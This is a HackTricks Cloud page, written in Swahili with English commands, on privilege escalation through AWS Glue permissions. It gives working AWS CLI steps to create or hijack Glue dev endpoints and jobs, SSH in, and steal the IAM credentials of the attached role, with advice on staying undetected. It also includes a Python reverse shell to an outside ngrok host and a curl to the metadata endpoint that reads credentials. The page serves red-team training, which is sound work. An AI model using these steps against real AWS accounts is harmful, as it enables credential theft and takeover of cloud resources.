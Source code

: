 # AWS - Ukarabati wa Mamlaka ya Glue

{% hint style="success" %}
Jifunze & zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Watumiaji wenye ruhusa hizi wanaweza **kuweka mwisho mpya wa maendeleo wa AWS Glue**, **kwa kumtambulisha jukumu la huduma lililopo linaloweza kutekelezwa na Glue** lenye ruhusa maalum kwa mwisho huu.

Baada ya usanidi, **mshambuliaji anaweza kuingia kwa SSH kwenye kifaa cha mwisho**, na kuiba siri za IAM za jukumu lililoteuliwa:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Kwa lengo la kujificha, inapendekezwa kutumia sifa za IAM kutoka ndani ya mashine halisi ya Glue.

**Matokeo Yanayowezekana:** Privesc kwa jukumu la huduma ya glue lililoelezwa.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Watumiaji wenye idhini hii wanaweza **kubadilisha ufunguo wa SSH wa kifaa cha maendeleo cha Glue** kilichopo, **kuruhusu ufikiaji wa SSH kwake**. Hii inaruhusu mshambuliaji kutekeleza amri kwa mamlaka ya jukumu lililounganishwa na kifaa hicho:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya glue iliyotumiwa.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Watumiaji wenye **`iam:PassRole`** pamoja na **`glue:CreateJob` au `glue:UpdateJob`**, na pia **`glue:StartJobRun` au `glue:CreateTrigger`** wanaweza **kuunda au kusasisha kazi ya AWS Glue**, kufunga akaunti yoyote ya **huduma ya Glue**, na kuanzisha utekelezaji wa kazi. Uwezo wa kazi ni pamoja na kukimbia nambari ya Python ya kupindua, ambayo inaweza kutumika kuanzisha kabati la kurudi. Kabati hili la kurudi linaweza kutumika kuchukua **vyeti vya IAM** vya jukumu lililofungwa kwenye kazi ya Glue, ikisababisha ufikiaji usioruhusiwa au hatua kulingana na ruhusa za jukumu hilo:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya glue lililoelezwa.

### `glue:UpdateJob`

Kwa idhini ya kusasisha pekee, mshambuliaji anaweza kuiba Sifa za IAM za jukumu lililounganishwa tayari.

**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya glue lililounganishwa.

## Marejeo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
